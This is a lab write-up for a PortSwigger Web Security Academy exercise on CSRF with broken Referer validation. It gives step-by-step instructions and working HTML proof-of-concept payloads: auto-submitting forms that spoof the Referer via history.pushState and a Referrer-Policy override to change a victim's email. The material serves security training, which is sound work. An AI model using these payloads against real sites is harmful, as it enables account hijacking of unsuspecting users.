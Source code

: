 # CSRF with broken Referer validation

## This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.

## To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

## You can log in to your own account using the following credentials: `wiener:peter`

### HINT:

```html
<script>
  history.pushState("", "", "/");
</script>
<form
  action="https://0a05009904830764825ebf6c00de0053.web-security-academy.net/my-account/change-email"
  method="POST"
>
  <input type="hidden" name="email" value="foo1@bar.com" />
  <input type="submit" value="Submit request" />
</form>
<script>
  document.forms[0].submit();
</script>
```

1.  Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2.  Send the request to Burp Repeater. Observe that if you change the domain in the Referer HTTP header, the request is rejected.
3.  Copy the original domain of your lab instance and append it to the Referer header in the form of a query string. The result should look something like this:

    `Referer: https://arbitrary-incorrect-domain.net?YOUR-LAB-ID.web-security-academy.net`

4.  Send the request and observe that it is now accepted. The website seems to accept any Referer header as long as it contains the expected domain somewhere in the string.
5.  Create a CSRF proof of concept exploit as described in the solution to the [CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses) lab and host it on the exploit server. Edit the JavaScript so that the third argument of the `history.pushState()` function includes a query string with your lab instance URL as follows:

    `history.pushState("", "", "/?YOUR-LAB-ID.web-security-academy.net")`

    This will cause the Referer header in the generated request to contain the URL of the target site in the query string, just like we tested earlier.

6.  If you store the exploit and test it by clicking "View exploit", you may encounter the "invalid Referer header" error again. This is because many browsers now strip the query string from the Referer header by default as a security measure. To override this behavior and ensure that the full URL is included in the request, go back to the exploit server and add the following header to the "Head" section:

    `Referrer-Policy: unsafe-url`

    Note that unlike the normal Referer header, the word "referrer" must be spelled correctly in this case.

7.  Change the email address in your exploit so that it doesn't match your own.
8.  Store the exploit, then click "Deliver to victim" to solve the lab.

---

---

### step 1

login and change email to repeater
`Referer: https://0a1000f20336b572830633df008a0099.web-security-academy.net`
in reference add any url with ? mark and test
`Referer: https://pp.com?0a1000f20336b572830633df008a0099.web-security-academy.net`

```html
<html>
  <body>
    <script>
      history.pushState(
        "",
        "",
        "/?0a1000f20336b572830633df008a0099.web-security-academy.net"
      );
    </script>
    <form
      action="https://0a1000f20336b572830633df008a0099.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input type="hidden" name="email" value="fo11@bar.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
